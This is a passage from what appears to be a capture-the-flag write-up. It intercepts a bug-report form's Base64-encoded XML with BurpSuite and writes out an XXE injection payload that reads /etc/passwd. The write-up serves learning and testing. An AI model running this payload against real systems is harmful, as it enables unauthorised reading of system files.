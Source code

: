 No result. Let’s intercept with **BurpSuite**.

![bs_test](screenshots/bs_test.png)

Captured request shows data encoded in **Base64 XML**.

Decoded:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<bugreport>
<title>test</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>
```

This indicates possible **XXE injection**.

---
## 3. Exploitation

### 3.1 XXE Injection

We craft a payload to read `/etc/passwd`:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<bugreport>
<title>&xxe;</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>
```
